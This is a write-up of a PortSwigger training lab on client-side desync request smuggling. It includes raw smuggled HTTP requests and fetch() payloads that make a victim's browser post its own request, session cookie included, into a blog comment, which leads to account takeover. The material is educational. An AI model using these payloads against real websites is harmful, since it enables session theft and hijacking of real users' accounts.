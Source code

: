 #  Lab: Client-side desync

## 📌 Lab Details
- **Title**: Lab: Client-side desync
- **Difficulty**: Expert
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/c7e1e3ecc45431f9694ade69d2c269fdfedcff87aa2cb4525dd503090d7d467e?referrer=%2fweb-security%2frequest-smuggling%2fbrowser%2fclient-side-desync%2flab-client-side-desync

## 🔍 Summary
Client-side desync is a request-smuggling variant where a server (or proxy) ignores `Content-Length`, letting attacker-supplied bytes inside a browser POST be parsed as a second HTTP request. In the lab you confirm the desync in Burp, reproduce it from a real browser with `fetch()`, use the comment feature as a gadget to store leaked request text, exfiltrate a victim’s `session` cookie, and reuse that cookie to access the victim account.

## 🛠 Steps to Solve
**Identify a vulnerable endpoint**
1. Send the `GET /` request to Burp Repeater.
2. Disable the **Update Content-Length** option in the tab-specific settings.
3. Change the request method to **POST**.
4. Change the `Content-Length` to 1 or higher and leave the body empty.
5. Send the request. Observe that the server responds immediately rather than waiting for the body. This suggests that it is ignoring the specified `Content-Length`.

**Confirm the desync vector in Burp**
1. Re-enable the **Update Content-Length** option.
2. Add an arbitrary request smuggling prefix to the body:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.h1-web-security-academy.net
   Connection: close
   Content-Length: CORRECT

   GET /hopefully404 HTTP/1.1
   Foo: x
   ```
3. Add a normal request for `GET /` to the tab group, after your malicious request.
4. Change the **send** method to **send group in sequence**(single connection).
5. Change the `Connection` header of the first request to `keep-alive`.
6. Send the sequence and check the responses. If the response to the second request matches what you expected from the smuggled prefix (in this case, a 404 response), this confirms that you can cause a desync.

**Replicate the desync vector in your browser**
1. Open a separate instance of Chrome that is **not** proxying traffic through Burp.
2. Go to the exploit server.
3. Open the browser developer tools and go to the **Network** tab.
4. Ensure that the **Preserve log** option is selected and clear the log of any existing entries.
5. Go to the **Console tab** and replicate the attack from the previous section using the `fetch()` API as follows:
   ```sh
   fetch('https://YOUR-LAB-ID.h1-web-security-academy.net', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x',
    mode: 'cors',
    credentials: 'include',
    }).catch(() => {
        fetch('https://YOUR-LAB-ID.h1-web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
    })
   ```
   Note that we're intentionally triggering a CORS error to prevent the browser from following the redirect, then using the **catch()** method to continue the attack sequence.
6. On the Network tab, you should see two requests:
   - The main request, which has triggered a CORS error.
   - A request for the home page, which received a 404 response.
   This confirms that the desync vector can be triggered from a browser.

**Identify an exploitable gadget**
1. Back in Burp's browser, visit one of the blog posts and observe that this lab contains a comment function.
2. From the **Proxy > HTTP history**, find the `GET /en/post?postId=x` request. Make note of the following:
   - The `postId` from the query string.
   - Your `session` and `_lab_analytics` cookies.
   - The `csrf` token.
3. In Burp Repeater, use the desync vector from the previous section to try to capture your own arbitrary request in a comment. For example:<br>
   **Request 1:**
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.h1-web-security-academy.net
   Connection: keep-alive
   Content-Length: CORRECT

   POST /en/post/comment HTTP/1.1
   Host: YOUR-LAB-ID.h1-web-security-academy.net
   Cookie: session=YOUR-SESSION-COOKIE; _lab_analytics=YOUR-LAB-COOKIE
   Content-Length: NUMBER-OF-BYTES-TO-CAPTURE
   Content-Type: x-www-form-urlencoded
   Connection: keep-alive

   csrf=YOUR-CSRF-TOKEN&postId=YOUR-POST-ID&name=wiener&email=wiener@web-security-academy.net&website=https://ginandjuice.shop&comment=
   ```
   **Request 2:** Send a normal `GET /` request.
   
   Note that the number of bytes that you try to capture must be longer than the body of your `POST /en/post/comment` request prefix, but shorter than the follow-up request.
4. Back in the browser, refresh the blog post and confirm that you have successfully output the start of your GET /capture-me request in a comment.

**Replicate the attack in your browser**
1. Open a separate instance of Chrome that is not proxying traffic through Burp.
2. Go to the exploit server.
3. Open the browser developer tools and go to the Network tab.
4. Ensure that the **Preserve log** option is selected and clear the log of any existing entries.
5. Go to the Console tab and replicate the attack from the previous section using the fetch() API as follows:
   ```sh
   fetch('https://YOUR-LAB-ID.h1-web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: YOUR-LAB-ID.h1-web-security-academy.net\r\nCookie: session=YOUR-SESSION-COOKIE; _lab_analytics=YOUR-LAB-COOKIE\r\nContent-Length: NUMBER-OF-BYTES-TO-CAPTURE\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=YOUR-CSRF-TOKEN&postId=YOUR-POST-ID&name=wiener&email=wiener@web-security-academy.net&website=https://portswigger.net&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://YOUR-LAB-ID.h1-web-security-academy.net/', {
        mode: 'no-cors',
        credentials: 'include'
    })
    })
   ```
6. On the Network tab, you should see three requests:
   - The initial request, which has triggered a CORS error.
   - A request for `/capture-me`, which has been redirected to the post confirmation page.
   - A request to load the post confirmation page.
7. Refresh the blog post and confirm that you have successfully output the start of your own `/capture-me` request via a browser-initiated attack.   

**Exploit**
1. Go to the exploit server.
2. In the **Body** panel, paste the script that you tested in the previous section.
3. Wrap the entire script in HTML <script> tags.
4. Store the exploit and click Deliver to victim.
5. Refresh the blog post and confirm that you have captured the start of the victim user's request.
6. Repeat this attack, adjusting the `Content-Length` of the nested `POST /en/post/comment` request until you have successfully output the victim's session cookie.
7. In Burp Repeater, send a request for `/my-account` using the victim's stolen cookie to solve the lab.

## 📖 Key Takeaways
- **Desync vector**: If front-end and back-end disagree about message boundaries (e.g., server ignores `Content-Length`), attacker-controlled payloads inside a POST body can be parsed as a new request.
- **Client-side trigger**: Modern browsers can be induced to send those bytes using `fetch()` (or similar) so the attack is executed from the victim’s browser — no direct server-side exploit needed.
- **Tight tuning**: The success depends on carefully chosen `Content-Length` values (capture size must be > your nested body prefix but < follow-up request size). Iteration is normal.
- **Impact**: Stolen session cookies let the attacker hijack the victim’s account without needing traditional XSS or CSRF.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/c5a99f5a-0a89-4095-8b0d-99158fe71c6f" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/3d5dfd4b-3435-4f95-9235-ac4c82a7a2b8" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/4ec5e981-5074-4628-b26b-36cd97a4ede0" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/21ee97c6-a6e9-47f1-8220-059e955f6e71" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/c77cb84b-9741-4042-8c96-390fd099a165" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/57035128-0896-4196-93c4-0c9e34c12b27" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/312d8925-c9aa-4d74-a453-33b5c6fa49b2" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/6530c189-0258-4906-b049-0bccdf452b3a" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/bd028193-1029-4b44-83ce-82bb72bd35bf" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/a0610c3c-e769-4e70-a5f5-e4c7b0212563" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/78c637a9-056e-48bc-89f0-2bdb086617c7" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/697af4d0-67e0-4507-a54f-119ddf83c608" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/d1842f4c-e2b9-48be-b04b-370d962a8508" />
